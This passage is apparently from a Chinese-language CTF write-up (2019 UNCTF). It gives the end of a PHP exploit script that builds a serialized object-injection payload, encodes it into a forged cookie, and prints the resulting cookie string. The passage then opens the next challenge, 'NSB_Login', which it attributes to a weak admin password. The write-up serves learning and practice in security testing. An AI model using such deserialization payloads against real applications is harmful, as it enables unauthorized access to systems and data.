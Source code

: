 ```
	$key = base64_encode($str);
	$key = bin2hex($key);
	$arr = str_split($key, 2);
	$cipher = '';
	foreach($arr as $value) {
		$num = hexdec($value);
		$num = $num + 240;
		$cipher = $cipher.'&'.dechex($num);
	}
	return $cipher;
}
$obj = new debug();
$obj1 = new session();
$str1 = serialize($obj1);
$obj->forbidden = $obj;
$obj->ob = $obj;
$obj->funny = $str1;
$str = serialize($obj);
echo cookie_encode($str);
?>
```

运行exp.php构造cookie

```
&144&16a&15f&121&13f&159&13a&15b&14a&147&13a&121&14a&169&139&126&13e&16a&160&127&153&16a&15f&122&13f&159&13a&15a&151&137&129&166&153&122&145&159&13f&123&13d&126&13e&144&15f&159&13d&15d&136&158&149&147&135&159&13f&123&13d&126&13d&15a&15f&159&151&147&141&159&13f&122&15b&126&13d&15a&164&16a&13f&15a&157&126&139&15e&146&16a&14a&148&13a&165&149&147&121&15c&139&15a&164&16a&13f&15a&153&126&139&15d&142&15c&149&15e&146&15e&14a&148&139&159&13f&123&13d&126&13f&144&15f&159&14a&15d&129&169&149&15d&15c&15b&14a&137&146&165&139&15a&164&169&13f&15a&135&127&153&16a&15f&168&13d&15a&15f&159&149&147&13e&15a&14a&148&13e&16a&148&123&142&166&151&122&146&165&139&15a&164&16a&13f&15a&131&126&139&159&139&127&153&16a&15f&169&13f&159&13a&166&149&159&139&127&153&15a&15f&168&13f&123&13d&126&13e&144&15f&159&14a&15e&146&165&152&15e&15b&159&13f&123&13d&126&13e&144&149&126&139&15b&128&126&13e&16a&15f&159&153&122&146&16a&153&122&15c&166&152&159&139&126&13d&144&160&127&153&16a&15f&168&13d&15a&15f&159&149&147&13e&15a&14a&148&13e&16a&148&123&142&166&151&122&146&165&139&15a&164&16a&13f&15a&135&167&13f&159&139&16a&14a&147&13e&143&14a&145&163&15d&151&122&146&125&139&15a&164&129&139&15a&164&129
```

1.  得到flag

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/67d4b6019a7bd302e4bff4873717c10c.png)


### NSB_Login
#### 原理知识
1）	管理员使用了弱密码，就是那么简单。
#### 解题过程
步骤：

1.  打开靶机，是这样一个页面。
